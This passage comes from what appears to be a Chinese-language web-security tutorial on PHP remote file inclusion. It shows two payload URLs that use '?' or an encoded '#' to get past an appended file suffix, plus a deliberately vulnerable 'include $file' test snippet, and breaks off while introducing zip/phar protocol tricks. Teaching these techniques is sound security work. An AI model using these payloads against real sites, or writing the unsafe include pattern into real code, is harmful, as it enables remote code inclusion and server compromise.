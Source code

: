 ```
protocol :// hostname[:port] / path / [;parameters][?query]#fragment
```



在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。

姿势一：query（？）

```
index.php?file=http://remoteaddr/remoteinfo.txt?
```



则包含的文件为 http://remoteaddr/remoteinfo.txt?/test/test.php
问号后面的部分`/test/test.php`，也就是指定的后缀被当作query从而被绕过。
[![img](Untitled.assets/19.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/19.png?raw=true)

姿势二：fragment（#）

```
index.php?file=http://remoteaddr/remoteinfo.txt%23
```



则包含的文件为 http://remoteaddr/remoteinfo.txt#/test/test.php
问号后面的部分`/test/test.php`，也就是指定的后缀被当作fragment从而被绕过。注意需要把`#`进行url编码为`%23`。
[![img](Untitled.assets/20.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/20.png?raw=true)

### 利用协议

前面有提到过利用zip协议和phar协议。假设现在测试代码为：

```
<?php	$file = $_GET['file'];	include $file.'/test/test.php';?>
```



构造压缩包如下：
[![img](Untitled.assets/21.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/21.png?raw=true)

